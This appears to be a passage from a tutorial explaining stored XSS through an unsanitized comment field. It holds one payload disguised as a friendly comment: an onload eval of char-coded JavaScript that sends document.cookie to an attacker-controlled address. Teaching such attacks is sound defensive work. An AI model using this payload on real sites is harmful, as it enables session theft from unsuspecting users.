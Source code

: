 
## Let’s move to the basic XSS topic.

_Browsers’ javascript parsers allow for client side, cross site code execution._ - [_Cross Site Scripting_](https://www.owasp.org/index.php/Cross-site_Scripting_%28XSS%29).

>The first XSS exploitation technique I will showcase is called **_stored XSS_**. We will be targeting a vulnerable input that allows us to add an unsanitized comment. The exploitation is persistent as the payload is being constantly red from the database.


[![Infographic showing stored XSS](images/storedxss.png)](images/storedxss.png "Infographic showing stored XSS")Infographic showing stored XSS

**For encoding I used one of the Jim Stiles’ [javascript utilities](http://www.jdstiles.com/java/cct.html).** 

I encoded the payload in char code and then used eval to run it on body load event.

```
Wow, I really like your site <body onload=eval(String.fromCharCode(110,101,119,32,73,109,97,103,101,40,41,46,115,114,99,61,34,104,116,116,112,58,47,47,49,57,50,46,49,54,56,46,49,46,49,48,49,47,63,120,115,115,61,34,43,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101))>
```
